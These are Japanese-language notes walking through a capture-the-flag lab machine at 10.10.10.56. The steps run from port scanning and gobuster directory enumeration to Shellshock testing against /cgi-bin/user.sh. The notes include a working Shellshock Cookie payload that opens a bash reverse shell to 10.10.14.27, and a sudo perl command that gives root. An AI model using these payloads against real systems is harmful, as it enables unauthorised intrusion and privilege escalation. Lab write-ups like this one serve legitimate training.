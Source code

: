 - nmap＞port80,2222
- https://packages.ubuntu.com バージョン等を確認できる
- gobusterでディレクトリ検索
- -sでステータスコードを追加できる
```
$ gobuster -u http://10.10.10.56 -w /usr/share/wordlists/dirb/small.txt -s 302,307,200,204,301,403
/cgi-bin/ (Status: 403)
```
- -xで拡張子指定
```
$ gobuster -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/small.txt -s 302,307,200,204,301,403 -x sh,pl
/user.sh (Status: 200)
```
- user.shが実行できることからshellshockの可能性がある
- nmapのshellshock用のスクリプトを検索
```
$ locate nse | grep shellshock
```

```
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
これを加工して
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```
- ターミナルをBurpで受信できるように設定する
	- option > Proxy Listeners > Add >Binding tab > 「Bind to port:8081」 > Request handing tab > Redirect to host :10.10.10.56 Redirect to port:80
```
nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
```
- スクリプトを読むと１５文字の文字列が生成されていたら脆弱であると言っていいい
- スクリプトのコマンド部分を修正してもう一度実行
- Burpでリバースシェルを取る
```
Cookie:() { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.27/8082 0>&1
```

- リバーシュシェルで受信
- sudo -lで
```
(root) NOPASSWD: /usr/bin/perl
```
- パールを実行することで権限昇格する
- pentestmonkyのperlで実行するか
```
sudo /usr/bin/perl -e 'exec("/bin/bash")'
```
の実行で権限昇格